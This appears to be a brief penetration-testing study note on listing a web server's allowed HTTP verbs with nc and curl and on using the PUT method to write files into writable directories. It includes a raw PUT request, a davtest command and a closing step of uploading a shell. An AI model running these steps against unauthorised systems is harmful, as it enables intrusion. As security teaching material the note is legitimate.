

Permitted HTTP Verbs
Enumerating permitted HTTP Verbs on a Web Application with OPTIONS
• nc
printf "OPTIONS / HTTP/1.1\r\nHost:www.example.com\r\n\r\n" | nc www.example.com 80

• curl
curl -i -X OPTIONS <IP>

PUT verb
We will be able to use the PUT verb only on writable directories. Leave a directory writable by anyone is one of the biggest mistake that an Administrator can do.
1. enumerate verbs
curl -i -X OPTIONS <IP>
2. Looking for writable directories. It is a guess work, we need to study the application and understand what directories are used to store user submitted avatars, files, attachments…
3. Once we have a pool of candidate folders we will try our PUT command on them:
◇ manually
PUT /[writable directory]//new.html HTTP/1.1
Host: example.com
Content-type: text/html
Content-length: 16
<p>New File<p>
◇ davtest tool(https://github.com/cldrn/davtest)
davtest -url www.example.com
4. If the folder result vulnerable we need to exploit it by uploading a shell
Bibliography:
• https://book.hacktricks.xyz/pentesting/pentesting-web/put-method-webdav
• https://www.yeahhub.com/http-put-method-exploitation-live-penetration-testing/